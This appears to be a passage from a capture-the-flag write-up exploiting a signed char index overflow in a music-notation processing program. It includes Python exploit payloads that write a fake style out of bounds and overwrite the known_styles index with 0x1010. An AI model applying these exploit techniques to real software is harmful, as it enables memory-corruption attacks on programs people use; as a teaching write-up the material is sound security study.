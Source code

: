 the issue here is that type of iterator (`i`) is `char`:

```cpp
typedef char style_index;

typedef char style_index0;
```

What this means in practice is that if we set `known_styles` to value larger than **0x7f**  the iterator will overflow into negative value. This will result in indexing into read only memory, and that further triggers some release asserts due to stack overflow due to data stored in that segment.

So to successfully break out of this we have to hit our fake style at some point before the iterator overflow.

Fortunately for us there's only one good opportunity for fake style -just before stdout pointers! So in exploit it looks like this:

First a fake style is written out of bounds

```py
payload = """
ENABLE: debugMode
ENABLE: beVerbose
ENABLE: ignoreErrors
ENABLE: expandMacro
Style: Woodwind Violins
Woodwind: Voices FlObCl; Clefs G
Violins: Voices Violini; Clefs G
Flats: 1
meter: C

MS-175 %s M
MS-65 %s M
""" % (("A"*0xbf),(("Q"*0xc0) + "iiiiiii:" ) ) 
```


`known_styles` index is overwritten with **0x1010** this will iterate styles out of bounds next time the style is added.

```py
# patch index again, this time we go in positive direction and to stop successfully we have to hit fake entry that was prepared in first step

payload = """
Flats: 1
meter: C
Style: Woodwind
Woodwind: Voices FlObCl; Clefs G

MS-121 %s M
""" % (("A" * 0x9c ) + (p16(0x1010)+p16(0xffff))) # known_styles idx

upload(6,payload)
pause()
gen(6)
#r.interactive()

r.recvuntil("Do you want to show the result?[y/n]")
r.sendline("n")
```

